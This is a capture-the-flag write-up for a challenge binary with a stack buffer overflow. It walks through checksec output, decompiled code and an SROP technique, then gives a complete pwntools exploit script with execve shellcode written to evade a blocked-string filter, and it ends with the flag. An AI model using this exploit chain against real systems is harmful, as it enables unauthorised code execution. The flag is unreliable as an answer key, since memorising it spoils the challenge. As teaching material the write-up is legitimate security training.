

# Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:


---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.


---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**


---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```



- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```


Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

#--------------------------------[ STEP 1 : PIE_BASE ]--------------------------------

io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
log.success	(f"leak_vals : {leak_vals}")
buf_addr = int(leak_vals[0],16)
vuln_addr = int(leak_vals[1].strip()[:-1],16)
log.success(f"buf @ : {hex(buf_addr)} ,, vuln @ : {hex(vuln_addr)}")
pie_base = vuln_addr - exe.sym['vuln']
exe.address = pie_base
log.success(f"exe.address @ {hex(exe.address)}")

#------------------[ STEP 2 : MAKE STACk RWX WITH MPROTECT SYSCALL ]------------------

# Setup ROP and gadgets
rop = ROP(exe)
syscall_gad = rop.find_gadget(['syscall'])[0]
ret_gad = rop.find_gadget(['ret'])[0]

# Page align the buffer address for mprotect
page_size = 0x1000
page_aligned_addr = buf_addr & ~(page_size - 1)

# Build SigreturnFrame for mprotect syscall
frame = SigreturnFrame()
frame.rax = 10            # syscall number for mprotect
frame.rdi = page_aligned_addr  # page-aligned address
frame.rsi = page_size     # length (one page)
frame.rdx = 7             # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rip = syscall_gad   # syscall; ret gadget address
frame.rsp = buf_addr  # new stack pointer after sigreturn

#-------------------------------[ STEP 3 : SHELLCODE ]-------------------------------

shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

#--------------------------------[ STEP 4 : PAYLOAD ]--------------------------------

payload=p64(buf_addr+8)
payload+= shellcode
payload+= b'\x90' * (72 - len(payload) )
payload+= p64(syscall_gad)
payload+=bytes(frame)

io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)


io.interactive()


```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
